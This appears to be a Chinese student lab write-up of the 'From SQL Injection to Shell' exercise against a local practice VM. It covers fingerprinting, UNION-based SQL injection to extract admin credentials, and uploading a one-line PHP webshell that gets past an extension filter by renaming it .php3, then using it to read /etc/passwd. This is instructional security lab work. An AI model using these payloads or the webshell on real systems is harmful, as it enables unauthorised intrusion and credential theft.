



# 翻转课堂三-从SQL注入到Shell #

## 介绍 ##

攻击分为三步：
- Fingerprinting：收集有关Web应用程序和使用中的技术的信息
- Detection and exploitation of SQL injection：SQL注入工作原理以及利用它们来检索信息
- Access to the administration pages and code execution：访问操作系统和运行命令的最后一步

## 环境配置 ##

- 目标服务器：下载镜像并转入虚拟机

- 攻击者主机：

  - 设置攻击者浏览器：
  

  
  - 打开 burpsuite 监听所有端口
  
  

  - 可以访问目标服务器
 
  

## 实验过程 ##

### Fingerprinting ###
#### Inspecting HTTP headers ####
- HTTP请求，可获得服务器信息及PHP版本信息

  - telnet

  - 攻击者访问服务器，并用burpsuite查看信息

- HTTPS请求

   - 请求失败，说明应用程序没有运行在443端口

#### Using a directory Buster ####

使用wfuzz检测远程文件与文件夹

### Detection and exploitation of SQL injection ###

#### Detection of SQL injection SQL注入检测 ####

##### 基于整数的检测 #####

1. 访问http://10.0.2.15/cat.php?id=1

  - 与输入http://10.0.2.15/cat.php?id=2-1 相同。则可能存在SQL注入
  

2. 如果访问http://10.0.2.15/cat.php?id=1' (多打一个单引号)，则会收到错误提示

##### 基于字符串的检测 #####

- 奇数个 **'** 会导致语法错误，所以使用偶数个'来测试
- 使用 **--** 注释掉查询的结尾
- 使用**and '1'='1**（不改变查询语句的语义）和**and '1'='0**（改变查询语句的语义），对比发现漏洞

#### SQL注入的开发 ####
##### 利用UNION关键字进行SQL注入 #####

- 访问http://10.0.2.15/cat.php?id=1 union select 1  收到错误提示

- 反复测试，直至访问http://10.0.2.15/cat.php?id=1 union select 1,2,3,4 时得到正确页面，可知列的正确数量

- 也可以用order by猜测列的数量。当输入列号大于正确列数时，报错

##### 检索信息 #####

- 数据库版本信息

- 当前用户信息

- 数据库名

- 获取数据库所有表名

- 获取数据库所有列名

- 获取表与列的对应关系

- 通过上图可知还存在用户名与密码字段，查询可得

 
 
### 访问管理页面和代码执行 ###
- 将得到的密码进行解密，可得密码为 P4ssw0rd

- 根据得到的用户名和密码访问管理页面

   - 登陆成功
   
   

- 植入webshell

   - 找到上图中的文件上传按钮
   - 上传一个webshell.php文件，内容为
    > <?php
    >       system($_GET['cmd']);
    >     ?>
   - 当后缀为php时，被页面拒绝（该应用程序阻止文件扩展名为.php上传,使用php3为后缀名绕过.php的过滤)
   
   
   
   - 改为php3的后缀名后，上传成功
   
   

- 访问植入的php文件

- 查看审查元素

- 获取页面大量信息

    - 如通过ls得到当前目录或上级目录信息
    - 通过cat /etc/passwd得到系统用户列表
    - 通过cat /etc/hosts等指令可以查看主机信息，更改网络配置，甚至重启系统

- 实验结束
